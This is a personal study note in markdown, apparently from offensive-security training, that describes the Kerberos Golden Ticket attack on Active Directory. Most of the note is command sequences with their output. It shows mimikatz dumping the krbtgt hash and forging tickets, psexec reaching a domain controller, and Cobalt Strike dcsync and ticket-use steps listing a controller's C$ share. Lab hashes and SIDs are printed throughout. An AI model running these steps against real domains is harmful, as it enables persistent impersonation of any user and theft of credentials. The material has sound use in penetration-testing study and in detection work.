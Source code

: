 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Golden Ticket]]  
___

## Description:  

Need krbtgt password hash, which usually requires domain admin to obtain.

A Golden Ticket is a forged TGT, signed by the domain's krbtgt account. Whereas a Silver Ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A Golden Ticket can be used to impersonate any user, to any service, on any machine in the domain; and to add insult to injury - the underlying credentials are never changed automatically. For that reason, the `krbtgt` NTLM/AES is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently).

### In mimikatz
Dump hashes on the domain controller and look for krbtgt password hash.
```
mimikatz # lsadump::lsa /patch
...
RID : 000001f6 (502)
User : krbtgt
LM :
NTLM : 75b60230a2394a812000dbfad8415965
...
```
Now make the Golden ticket
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt

mimikatz # misc::cmd

C:\Users\offsec.crop> psexec.exe \\dc01 cmd.exe

```

### In CobaltStrike

```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 2/19/2021 1:31:57 PM
Object Security ID   : S-1-5-21-3263068140-2042698922-2891547269-502
Object Relative ID   : 502

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```

Now make the golden ticket
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

To use it:

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     05/18/2021 10:23:49   fe1c92f2af2eb37e7af4463c8a4ea7
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:40:04   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 13:22:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:49:20   System Volume Information
          dir     03/25/2021 10:27:55   Users
          dir     05/17/2021 18:55:39   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 850mb    fil     05/25/2021 08:52:07   pagefile.sys

beacon> rev2self
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:54 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
